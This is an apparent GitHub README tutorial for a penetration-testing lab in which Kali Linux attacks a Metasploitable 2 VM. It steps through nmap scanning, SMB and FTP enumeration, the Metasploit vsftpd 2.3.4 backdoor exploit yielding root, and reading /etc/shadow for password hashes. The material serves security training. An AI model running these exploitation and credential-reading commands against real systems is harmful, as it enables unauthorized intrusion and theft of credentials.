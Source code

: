 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.
<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Attacker-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Status-Active-orange?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab provides a **safe, isolated, real-world environment** to practice penetration testing techniques from reconnaissance to post-exploitation.

**Lab Components:**

| Machine   | OS             | IP Address       | Role                        |
|----------|----------------|----------------|----------------------------|
| Attacker | Kali Linux     | 192.168.142.128 | Pentester machine          |
| Target   | Metasploitable 2 | 192.168.142.130 | Vulnerable machine         |

**Lab Objective:**  
- Simulate real-world penetration testing scenarios.  
- Gain hands-on experience with scanning, enumeration, exploitation, and reporting.  

## 🔹 Lab Setup

### 1. Requirements

* **Virtualization software:** VirtualBox or VMware
* **Attacker VM:** Kali Linux
* **Target VM:** Metasploitable 2
* **Network isolation:** Internal network or host-only adapter
* **Snapshots:** Take snapshots before starting

### 2. Network Configuration

1. Set VMs to **Host-Only Adapter**:

   * Attacker: 192.168.142.128
   * Target: 192.168.142.130
 
2. Verify connectivity:

```bash
ping 192.168.142.130
```
  <p align="center">
  <img src="https://github.com/ZeeshanKeyani/Real-world-penetration-testing-environment-in-a-safe-isolated-network./blob/main/img/3-metasploit.JPG" />
   </p>


## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

```bash
whois 192.168.142.130
nmap -sP 192.168.142.0/24
```
 <p align="center">
   <img src="src="https://github.com/user-attachments/assets/df545864-2861-4dcd-a5c5-62dd1f989aaa" />
    </p>
* Collect IP, domain, and server info.
* No interaction with target.

#### Active Recon

```bash
nmap -sS -Pn 192.168.142.130
nmap -p- -A -T4 192.168.142.130
```

**Example Output:**

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  netbios-ssn Samba smbd 3.X
```

---

### Step 2: Enumeration

#### FTP Enumeration

```bash
nc 192.168.142.130 21
```

* Check banner for service version.

```bash
ftp 192.168.142.130
# Attempt anonymous login
```

#### SMB Enumeration

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux -a 192.168.142.130
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to identify exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit samba
```

* Check Metasploit modules:

```bash
msfconsole
search vsftpd
```

---

### Step 4: Exploitation

#### Example: FTP Backdoor

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
exploit
```

#### Verify Access

```bash
whoami
id
```

**Expected Output:**

```
uid=0(root) gid=0(root) groups=0(root)
```

---

### Step 5: Post-Exploitation

* System enumeration:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Privilege escalation check:

```bash
sudo -l
```

* Dump hashes or sensitive info (for lab purposes only):

```bash
cat /etc/shadow
```


### Step 6: Reporting

* Document all findings.
* Include screenshots and proof-of-concept.

**Report Template:**

| Vulnerability        | Exploit Used          | Impact              | Mitigation                                   |
| -------------------- | --------------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor         | vsftpd 2.3.4          | Remote Shell Access | Upgrade FTP server / Disable anonymous login |
| SMB Misconfiguration | Metasploit smb module | Data Exposure       | Patch Samba / Restrict SMB access            |

---

## 🔹 Recommended Tools

| Tool                   | Purpose                           |
| ---------------------- | --------------------------------- |
| Nmap / Zenmap          | Port scanning & service discovery |
| Netcat                 | Banner grabbing & connectivity    |
| Metasploit             | Exploit development & execution   |
| Nikto / Dirb           | Web vulnerability scanning        |
| Enum4linux / smbclient | Windows/SMB enumeration           |
| Wireshark              | Network traffic analysis          |

---

## 🔹 Best Practices

1. Always **take snapshots** before testing.
2. Use **isolated lab networks**.
3. Document each phase with screenshots and notes.
4. Never attack systems **without permission**.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Unauthorized penetration testing is illegal and unethical.


